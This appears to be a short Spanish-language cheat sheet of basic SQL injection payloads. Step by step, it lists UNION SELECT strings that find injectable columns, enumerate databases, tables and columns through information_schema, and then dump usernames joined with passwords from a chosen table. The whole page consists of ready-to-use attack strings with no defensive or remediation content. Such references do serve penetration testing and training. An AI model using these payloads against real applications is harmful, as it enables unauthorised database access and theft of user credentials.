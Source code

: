 # SQLi (SQL injection)

### Inyecciones SQL básicas

1. Ver campos inyectables

`'UNION SELECT NULL,NULL-- -`

2. Para ver las bases de datos.

`'UNION SELECT schema_name,NULL FROM information_schema.schemata-- -`

3. Para ver las tablas de todas las bases de datos existentes.

`'UNION SELECT table_name,NULL FROM information_schema.tables-- -`

4. Para ver tablas de una base de datos en concreto.

`'UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = '<DB>'-- -`

5. Para ver columnas de la tabla en concreto.

`'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_schema = 'DB' AND table_name = '<tabla>'-- -`

6. Para ver datos de columnas de una tabla en concreto.

`'UNION SELECT NULL,username||':'||password FROM <tabla>-- -`
